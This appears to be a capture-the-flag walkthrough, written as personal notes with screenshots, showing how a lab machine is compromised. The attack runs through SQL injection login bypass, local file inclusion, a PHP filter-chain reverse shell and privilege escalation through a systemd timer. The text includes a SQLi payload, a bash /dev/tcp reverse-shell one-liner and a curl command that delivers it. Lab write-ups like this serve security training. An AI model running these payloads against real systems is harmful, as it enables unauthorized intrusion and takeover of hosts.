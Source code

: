 ```yaml
---
sticker: emoji//1f9c0
---
```


![](Pasted image 20240927153835.png)
This CTF contains a port scanning "block" method, since it show a lot of open ports in which most of services, are unavailable, for our luck, port 80 is open and has a login page:

![](Pasted image 20240927153919.png)
I tried different things such as `XSS` `LFI` `PATH TRAVERSAL` `BRUTEFORCE` and more, then when i tried `SQLI` I found a path to exploit, after trying multiple payloads, got with this one that worked for me:

`' || '1'='1';-- -`

Had to URL encode it:

`%27%20%7C%7C%20%271%27%3D%271%27%3B--%20-`

And it showed the following output:

![](Pasted image 20240927154104.png)

That location seems fun, lets visit it:

We got admin panel even without credentials:

![](Pasted image 20240927154210.png)
After looking for a while, I found that the request for messages, got me this message:

![](Pasted image 20240927154349.png)

Let's visit it:

![](Pasted image 20240927154523.png)

Nothing too useful, but then, looking at the URL I thought about a `LFI`, when i sent the request, i got this:

![](Pasted image 20240927154621.png)
I was able to read `etc/passwd` file, this website is vulnerable to `LFI`, let's get a reverse shell:

For this, i will be using the following tool:

```github
https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py`
```

Also, a simple php reverse shell, i will store it in a file called payload.txt: 

```php
"<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/IP/PORT 0>&1\"'); ?>" | grep "^php" > payload.txt
```

Now, let's send the reverse shell and establish a connection to our machine:

###### Sending the payload
`curl "http://10.10.142.162/secret-script.php?file=$(cat payload.txt)"`

![](Pasted image 20240927160128.png)


![](Pasted image 20240927160136.png)
We got our reverse shell, let's make it stable using the [[STABLE SHELL|shell tricks]]::

![](Pasted image 20240927160349.png)
Now, we have an stable shell, let's look for privesc:

![](Pasted image 20240927160513.png)
We cannot read user.txt contents neither use sudo -l due to the lack of the password for the user, let's look at SUID files:

![](Pasted image 20240927160551.png)

Nothing useful too, let's keep enumerating the machine:

![](Pasted image 20240927160737.png)
in `/home/comte/.ssh` we can read and write authorized keys, let's put ours:

![](Pasted image 20240927161025.png)
![](Pasted image 20240927161221.png)
I could enter ssh using my own key, let's read that `user.txt` file:

![](Pasted image 20240927161301.png)\

For privilege escalation we have this sudo permissions:

![](Pasted image 20240927161701.png)
When i read the `exploit.timer` file, I see this:

![](Pasted image 20240927161722.png)
Let's change the `OnBootSec` to 5 seconds and enable the service to see what it does:

![](Pasted image 20240927161803.png)
![](Pasted image 20240927162007.png)
Once I did this, I found that a new binary was added to the 4000 UID binaries, let's exploit `xxd` to gain root shell:

![](Pasted image 20240927162104.png)

![](Pasted image 20240927162740.png)
Now, i got root authorized key access:

![](Pasted image 20240927162817.png)
just like that, machine is done:

![](Pasted image 20240927162856.png)


